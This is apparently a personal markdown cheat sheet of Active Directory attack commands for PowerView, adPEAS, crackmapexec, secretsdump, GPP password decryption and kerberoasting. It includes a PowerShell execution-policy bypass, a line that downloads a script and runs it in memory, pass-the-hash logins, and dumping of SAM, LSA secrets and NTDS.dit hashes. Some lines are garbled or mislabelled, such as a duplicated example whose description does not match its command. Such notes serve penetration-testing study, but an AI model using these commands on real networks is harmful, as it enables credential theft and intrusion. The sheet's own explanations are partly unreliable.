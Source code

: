 # PowerView
```powershell
# First we  need to shutdown execution policy using powershell
powershell -ep (or -ExecutionPolicy ) bypass
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
. .\ PowerView.ps1
Get-NetDomain *prints info about DC*
Get-NetDomainController *points at DC* 
Get-DomainPolicy *shows policies* 
(Get-DomainPolicy)."system access" More info about policies 
Get-NetGPO to show group Policies | selecy displayname, whenchanged
Get-ComputerInfo *Prints all info about the system*
```


# adPEAS 
https://github.com/61106960/adPEAS

start using one of the following:
```
Import-Module .\adPEAS.ps1
```
or
```
. . \adPEAS.ps1
```
or
```
gc -raw .\adPEAS.ps1 | iex
```
or
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

after starting adpeas we can then start enumerating 
start adPEAS with all enumeration modules and enumerate the domain the logged-on user and computer is connected to.

```
Invoke-adPEAS
```

Start adPEAS with all enumeration modules and enumerate the domain 'contoso.com'.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the domain controller 'dc1.contoso.com' for almost all enumeration requests.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the passed PSCredential object during enumeration.
```
$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword)
Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred
```


Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the username 'contoso\johndoe' with password 'Passw0rd1!' during enumeration.

```
Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'
```

# crackmapexec 
#passhash 
```bash

crackmapexec smb <IP/CIDR or range> -u <user> -H <hash> --local-auth 

#passpassword
crackmapexec smb <IP/CIDR or range> -u <user> -d <domain> -p <pass> 

# flags
-u # USER
-p # PASSWORD
-H # Hash
-x # Execute a command 
--local-auth # login


# gather creds
--sam to dump sam hahses
--lsa dump lsa secrets
--ntds dump NTDS.dit
```


# secretsdump
dumping hashes and secrets in windows
```
secretsdump.py DOMAIN/USER:PASSWORD@IP
```

# In msfconsole 


## gpp / cPassword attack

- Check for gpp attack
```
smb_enum_gpp moudle 
```

# GetUserSPNs.py
For kerberoasting (Capture TGT account's hash)
hashcat -m 13100
```
GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

# gpp-decrypt
gpp-decrypt <HASH>